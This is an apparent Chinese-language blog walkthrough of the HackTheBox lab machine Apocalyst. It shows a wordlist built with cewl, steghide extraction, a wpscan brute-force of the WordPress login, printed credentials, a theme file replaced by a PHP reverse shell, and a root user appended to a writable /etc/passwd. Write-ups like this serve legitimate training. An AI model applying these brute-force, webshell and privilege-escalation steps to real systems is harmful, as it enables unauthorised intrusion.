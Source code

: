 ```yaml
---
layout: post
title:  "HackTheBox >_ Apocalyst_46"
description: walkthrough
category: HackTheBox
---
```

# Apocalyst_46

![image-20200919173407792]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919173407792.png)

显示不完整。将apocalyst加入host解析

![image-20200919174402907]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919174402907.png)

正常了

![image-20200919175830422]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919175830422.png)

![image-20200919180151889]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919180151889.png)

首先这个盒子很扯淡。，正常字典打的目录会让你止步不前。应该先收集一下，我怀疑oscp的中的某个其实也有这个问题。所以还是做了。

看网页发现，how long we have 这个作者，怀疑是用户名`falaraki`

![image-20200919180308003]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919180308003.png)

写cewl收集一下网站，。然后。再附加到正常字典里再打目录

```bash
$ cewl 10.10.10.46 > wordlist.txt
```

![image-20200919180429377]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919180429377.png)

多个页面会频繁出现这个图片，下载。

![image-20200919180550486]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919180550486.png)

从这开始整个靶机就非常扯了其实 安装一个图片解码工具

```bash
$ apt-get install steghide
$ steghide extract -sf apocalyst.jpg
Enter passphrase:
wrote extracted data to "list.txt".
```

![image-20200919180724719]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919180724719.png)

提示输入的时候直接回车跳过

生成了一个新的文件list.txt，看文件内容应该是一个字典。

![image-20200919180825667]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919180825667.png)

我们已经看到 网站应该是另一个wp，现在有有一个用户名`falaraki`,一个字典。

扔到wpscan里尝试暴力一下

```bash
$ wpscan --url http://10.10.10.46 --wordlist /root/HackTheBox/Apocalyst_10.10.10.46/list.txt --username falaraki
```

![image-20200919180959968]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919180959968.png)

```bash
login: falaraki
password: Transclisiation
```

使用这个凭证从wp后台登陆。

![image-20200919181312068]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919181312068.png)

![image-20200919181425381]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919181425381.png)

老套路通过修改`single.php`文件为php reverse shell 文件内容

![image-20200919181530202]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919181530202.png)

修改为kali IP，并上传

![image-20200919181741494]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919181741494.png)

kali本地设立监听

![image-20200919181821613]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919181821613.png)

回到网页随便点一个文章题目就能得到shell

![image-20200919181912149]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919181912149.png)

先尝试获得更方便的bash shell

```bash
$ /bin/bash -i
```

![image-20200919182037066]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919182037066.png)

![image-20200919182115948]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919182115948.png)

获得user

![image-20200919182207913]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919182207913.png)

注意到一个隐藏文件`.secret`

![image-20200919182332949]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919182332949.png)

查看内容发现一串base64编码

![image-20200919182426741]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919182426741.png)

```bash
S2VlcCBmb3JnZXR0aW5nIHBhc3N3b3JkIHNvIHRoaXMgd2lsbCBrZWVwIGl0IHNhZmUhDQpZMHVBSU50RzM3VGlOZ1RIIXNVemVyc1A0c3M=
```

base64解码

![image-20200919182524254]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919182524254.png)

所以用户的凭证可能是

```bash
falaraki:Y0uAINtG37TiNgTH!sUzersP4ss
```

ssh登陆成功

![image-20200919201301296]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919201301296.png)

上传linEnum帮助枚举

LinEnum: [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

枚举发现passwd可写

![image-20200919201530314]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919201530314.png)

直接在passwd文件最后追加一行新的用户及对应凭证。将最后面的用户部分改为root

![image-20200919201911626]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919201911626.png)

这相当于增加了新的root用户

su切换到新用户就获得了root shell

![image-20200919202046618]({{ site.url }}/assets/Apocalyst_46.assets/image-20200919202046618.png)

